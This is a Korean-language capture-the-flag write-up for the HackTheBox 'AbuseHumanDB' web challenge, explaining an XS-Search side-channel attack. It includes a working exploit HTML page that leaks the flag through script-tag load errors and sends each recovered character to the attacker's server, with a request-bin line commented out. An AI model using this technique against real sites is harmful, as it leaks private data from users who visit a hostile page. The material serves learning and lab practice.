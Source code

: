 ```yaml
---
title: '[Hackthebox] AbuseHumanDB'
author: hoppi
date: 2023-03-30 15:47:00 + 0000
categories: [Web]
tags: [hackthebox, web, xs-search]
---
```


**키워드: XS-Search**  

![description](../../../assets/img/2023-03-30/description.png){: w="800" h="400" }  
<br/>

# 분석
***
## 플레그 위치
***
플레그는 아래와 같이 userEntries 테이블에 존재합니다.  
```sql
PRAGMA case_sensitive_like=ON; 

DROP TABLE IF EXISTS userEntries;

CREATE TABLE IF NOT EXISTS userEntries (
    id          INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
    title       VARCHAR(255) NOT NULL UNIQUE,
    url         VARCHAR(255) NOT NULL,
    approved    BOOLEAN NOT NULL
);

INSERT INTO userEntries (title, url, approved) VALUES ("Back The Hox :: Cyber Catastrophe Propaganda CTF against Aliens", "https://ctf.backthehox.ew/ctf/82", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("Drunk Alien Song | Patlamaya Devam (official video)", "https://www.youtune.com/watch?v=jPPT7TcFmAk", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("Mars Attacks! Earth is invaded by Martians with unbeatable weapons and a cruel sense of humor.", "https://www.imbd.com/title/tt0116996/", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("Professor Steven Rolling fears aliens could ‘plunder, conquer and colonise’ Earth if we contact them", "https://www.thebun.co.uk/tech/4119382/professor-steven-rolling-fears-aliens-could-plunder-conquer-and-colonise-earth-if-we-contact-them/", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("HTB{f4k3_fl4g_f0r_t3st1ng}","https://app.backthehox.ew/users/107", 0);
```
{: file="database.js"}
<br/>

## 기능
***
첫 번째 기능은 title 컬럼을 이용하여 user entry를 검색할 수 있습니다.  
![search](../../../assets/img/2023-03-30/search.png){: w="700" h="350" }  
<br/>

하지만 플레그가 들어있는 엔트리의 `approved`가 0으로 셋팅되어있는 것을 볼 수 있습니다. 따라서 우리는 이 엔트리를 검색할 수 없습니다. 하지만 아래와 같이 `db.getEntry()`에서 `isLocalhost()`를 통해 로컬에 의한 접근이면 `approved`를 1로 바꿀 수 있게됩니다.  
```javascript
const isLocalhost = req => ((req.ip == '127.0.0.1' && req.headers.host == '127.0.0.1:1337') ? 0 : 1);

...
// index.js: 40
router.get('/api/entries/search', (req, res) => {
	if(req.query.q) {
		const query = `${req.query.q}%`;
		return db.getEntry(query, isLocalhost(req))
			.then(entries => {
				if(entries.length == 0) return res.status(404).send(response('Your search did not yield any results!'));
				res.json(entries);
			})
			.catch(() => res.send(response('Something went wrong! Please try again!')));
	}
	return res.status(403).json(response('Missing required parameters!'));
});
```
{:file="index.js"}
<br/>

두 번째 기능은 Report를 통해서 임의의 사이트에 봇이 방문하게 할 수 있습니다.  
![report](../../../assets/img/2023-03-30/report.png){: w="700" h="350" }  
<br/>



# 취약점
***
## XS-Search
***
<u>XS-Search 또는 XS-Leak은 SOP를 우회하여 공격 대상의 정보를 유출할 수 있는 공격 방식입니다.</u> 제가 처음에 생각했던 것은 fetch를 이용하는 방법이었는데 1분 정도 생각해 보니 요청은 보낼 수 있지만 브라우저의 `CORS` 정책에 의해서 response가 불낙(block)당합니다. 하지만 아래와 같이 엔트리를 검색하는 엔드포인트에서 쿼리의 결과가 없으면 `404`, 결과가 있으면 `200`을 반환하기 때문에 이 차이를 이용하여 `XS-Search`를 할 수 있습니다.  
![diff](../../../assets/img/2023-03-30/diff.png){: w="800" h="400" }
<br/>

> XSS와 차이점 : XSS도 생각해 보면 SOP를 우회하는 공격이지만 공격 대상 오리진에 반드시 스크립트 삽입이 필요하고 희생자가 그것을 방문해야 한다는 전제조건이 깔립니다.(보통 워게임에서는 bot이 희생자의 역할을 합니다) 하지만 XS-Search의 경우 희생자가 공격자 서버에 방문만 해도 script, style, img 태그 등을 이용하여 SOP를 우회할 수 있습니다.  
{: .prompt-warning }  
<br/>

# Exploit
***
## PoC Code
***
```html
<html>
<head>
</head>
<body>

</body>
<script>
    const URL = "http://127.0.0.1:1337/api/entries/search?q=HTB{";
    //const REQ_BIN = "https://.m.pipedream.net/?f="
    const strings = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!_}'
    let FLAG =""
    const xsSearch = async (char) => {
        return new Promise((resolve, reject)=>{
        const script_tag = document.createElement("script");
        script_tag.src = URL+encodeURIComponent(FLAG+char);
        script_tag.onload = () => resolve(char);
        script_tag.onerror = () => reject(char);
        document.querySelector("head").appendChild(script_tag);
      });
    };

    const getFlag = async() =>{
        let find = false;
        for (j=1; j < 5; j++){
            for(i=0; i < strings.length; i++){
                await xsSearch(strings[i]).then((res)=> {FLAG=FLAG.concat(res); fetch("/?f="+FLAG); find = res==='}' ? true:false; i=0}, (rej)=>{ });
                if (find) break;
            }
            
        }

    };
    getFlag();
</script>
</html>
```
{:file="exploit.html"}
<br/>

조금 짜증나는 점은 아래 `getEntry()`를 보면 `LIKE`를 이용하기 때문에 `%`,`_`와 같은 와일드카드가 들어가면 참을 반환하기 때문에 플레그를 얻는 과정에서 오탐이 발생합니다. 특히 `_`는 실제 플레그에도 포함되어 있어서 의심가는 부분에서 `_`를 제외하고 brute-force를 해야합니다.
![query](../../../assets/img/2023-03-30/query.png){: w="800" h="400" }
<br/>

![flag](../../../assets/img/2023-03-30/flag.png){: w="700" h="350" }
<br/>

# 잡설
***
이 문제에서 최신 버전의 `ngrok`을 사용하면 제대로 bot의 요청을 처리할 수 없을 수 있습니다. 바로 warning 페이지 때문인데요. [예전에 한 번 겪은 적이 있었죠.ㅋㅋ](https://h0pp1.github.io/posts/easter-bunny/) 최근에 `WolvCTF 2023에서 Adversal` 문제를 출제하신 분의 [롸업](https://github.com/Nolan1324/adversal-wolvctf-2023/tree/main/solvers)을 보니 아래와 같이 설정하면 `ngrok`이 `non-standard browser`로 인식하여 warning 페이지를 띄우지 않는다고 합니다. 문제를 만들 기회가 있다면 이런 부분을 참고해봐도 좋을 것 같네요.  
```javascript
const page = await ctx.newPage();
...
await page.setUserAgent('puppeteer');
```
{: file="bot.js"}
<br/>

# Reference
***
- [https://learn.dreamhack.io/330#5](https://learn.dreamhack.io/330#5)
